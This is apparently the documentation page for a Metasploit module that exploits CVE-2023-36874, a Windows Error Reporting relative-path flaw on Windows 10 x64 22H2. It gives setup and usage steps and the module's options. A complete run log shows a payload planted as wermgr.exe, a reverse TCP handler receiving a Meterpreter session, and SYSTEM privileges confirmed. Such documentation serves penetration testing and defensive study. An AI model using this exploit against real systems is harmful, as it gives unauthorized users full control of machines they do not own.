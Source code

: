 ## Vulnerable Application
This module works only on Windows 10x64 22H2

### Introduction

This module takes advantage of a bug in the way Windows error reporting opens the report
parser.  If you open a report, Windows uses a relative path to locate the rendering program.
By creating a specific alternate directory structure, we can coerce Windows into opening an
arbitrary executable as SYSTEM.
If the current user is a local admin, the system will attempt impersonation and the exploit will
fail.  Because the payload is added to a directory this module creates, in the event of successful
exploitation, the user will need to delete the payload and the directories containing the payload
manually.

This module will attempt to delete the payload it uploads and the directory structure.

## Installation Instructions
1. Install Windows 10x64 22H2
1. Create a standard user


## Verification Steps

1. Create a session on the target system under the context of a non local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/win_error_cve_2023_36874`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.


## Options

### EXPLOIT_NAME

The filename to use for the exploit binary (%RAND%.exe by default)

### REPORT_DIR

The Error Directory to use (%RAND% by default).

### REPORT_NAME

The Error report name (%RAND% by default).

### SHADOW_DRIVE

Directory to place in the home drive for pivot (%TEMP% by default).

### EXECUTE_DELAY

The number of seconds to delay between file upload and exploit launch.  Default is 3.

## Scenarios

### Windows 10.0.19045.2006 x64 (Windows 10x64 22H2)

```
msf6 exploit(windows/local/win_error_cve_2023_36874) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] OS version: Windows 10+ Build 19045
[+] The target appears to be vulnerable.
[*] Shadow Path = C:\NpIWBsCJozK
[*] Attempting to PrivEsc on DESKTOP-V413087 via session ID: 1
[*] C:\ProgramData
[*] Creating C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] Creating directory C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport created
[*] Writing Report to C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport\Report.wer
[*] Creating directory C:\NpIWBsCJozK
[*] C:\NpIWBsCJozK created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\
[*] C:\NpIWBsCJozK\ProgramData\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\ created
[*] Creating directory C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport created
[*] Writing bad Report to C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport\Report.wer
[*] Creating C:\NpIWBsCJozK\system32
[*] Creating directory C:\NpIWBsCJozK\system32
[*] C:\NpIWBsCJozK\system32 created
[*] Writing payload to C:\NpIWBsCJozK\system32\wermgr.exe
[*] shadow_path = NpIWBsCJozK
[*] Exploit uploaded on DESKTOP-V413087 to C:\NpIWBsCJozK\fShpLfYh.exe
[*] Sending stage (200774 bytes) to 10.5.132.118
[+] Deleted C:\ProgramData\Microsoft\Windows\WER\ReportArchive\MyReport
[*] 
[+] Deleted C:\NpIWBsCJozK\ProgramData\Microsoft\Windows\WER\ReportArchive\
[*] Meterpreter session 2 opened (10.5.135.201:4444 -> 10.5.132.118:62415) at 2023-09-19 15:43:02 -0500
[-] Failed to delete C:\NpIWBsCJozK\system32: stdapi_fs_delete_dir: Operation failed: The directory is not empty.

meterpreter > sysinfo
Computer        : DESKTOP-V413087
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit

```
